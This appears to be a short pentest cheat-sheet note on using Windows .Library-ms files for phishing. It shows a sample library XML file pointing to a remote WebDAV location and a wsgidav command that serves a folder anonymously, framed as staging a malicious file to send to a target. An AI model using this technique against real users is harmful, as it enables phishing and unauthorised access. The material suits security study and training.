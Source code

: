 # Windows Lib Files

Windows library files are virtual containers for user content.
They connect users with data stored in remote locations like web services or shares.
These files have a **.Library-ms** file extension and can be executed by
double-clicking them in Windows Explorer.

Staging a malicious .Library-ms file on a web server and sending a link to the target.
You can use WebDAV to host the file on a web server.

Library files consist of three major parts and are written in XML to specify the parameters for accessing remote locations.

The parts are

1.  General library information,
2.  Library properties, and
3.  Library locations.

Creating a file with the **.Library-ms** extension and opening it in a text editor reveals the XML structure.

Within the XML structure you can specify the location of the remote file, library display name, and library icon, and other parameters.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="https://schemas.microsoft.com/windows/2009/library">
<navigationPaneVisible>true</navigationPaneVisible>
<name>@windows.storage.dll,-34575</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>%SystemRoot%\system32\imageres.dll,-1002</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>https://www.example.com/</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

# ~/.local/bin/wsgidav --host 0.0.0.0 --port=80 --root=/home/vagrant/Documents/srvdir --auth=anonymous